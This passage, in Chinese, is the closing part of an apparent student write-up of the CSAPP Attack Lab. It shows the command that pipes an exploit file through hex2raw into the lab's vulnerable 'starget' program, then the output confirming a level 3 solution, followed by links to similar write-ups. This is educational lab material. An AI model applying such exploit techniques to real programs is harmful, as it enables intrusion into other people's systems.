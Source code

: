 转换为原始字节序列并传递给 `starget` 程序：

```bash
cat phase6.txt | ./hex2raw | ./starget
```

```text
Cookie: 0x24c8ce66
Type string:Touch3!: You called touch3("24c8ce66")
Valid solution for level 3 with target starget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

---

<i class="iconfont icon-href"></i> [更适合北大宝宝体质的 Attack Lab 踩坑记](https://arthals.ink/blog/attack-lab)
<i class="iconfont icon-href"></i> [读厚 CSAPP III Attack Lab](https://www.wdxtub.com/blog/csapp/thick-csapp-lab-3)

```

```
